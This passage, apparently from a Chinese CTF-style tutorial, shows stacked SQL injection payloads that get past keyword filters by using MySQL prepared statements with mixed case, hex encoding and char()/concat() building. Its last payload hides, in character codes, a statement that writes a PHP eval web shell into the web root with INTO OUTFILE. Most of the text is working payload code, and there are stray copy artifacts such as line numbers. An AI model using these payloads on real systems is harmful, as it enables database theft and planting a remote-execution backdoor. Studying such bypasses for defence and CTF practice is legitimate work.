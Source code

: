 SET：用于设置变量(@a)

```bash
1';sEt @a=concat("sel","ect flag from flag_here");PRepare hello from @a;execute hello;#
1
```

这里还用大小写简单绕了一下其他过滤

MySql 预处理配合十六进制绕过关键字
基本原理如下：

```bash
mysql> select hex('show databases');
+------------------------------+
| hex('show databases;')       |
+------------------------------+
| 73686F7720646174616261736573 |
+------------------------------+
1 row in set (0.01 sec)

mysql> set @b=0x73686F7720646174616261736573;
Query OK, 0 rows affected (0.01 sec)

mysql> prepare test from @b;
Query OK, 0 rows affected (0.02 sec)
Statement prepared

mysql> execute test;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| challenges         |
| mysql              |
| performance_schema |
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
123456789101112131415161718192021222324252627
```

即payload类似如下：

```bash
1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#
1
```

MySql预处理配合字符串拼接绕过关键字
原理就是借助char()函数将ascii码转化为字符然后再使用concat()函数将字符连接起来，有了前面的基础这里应该很好理解了：

```bash
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
1
```
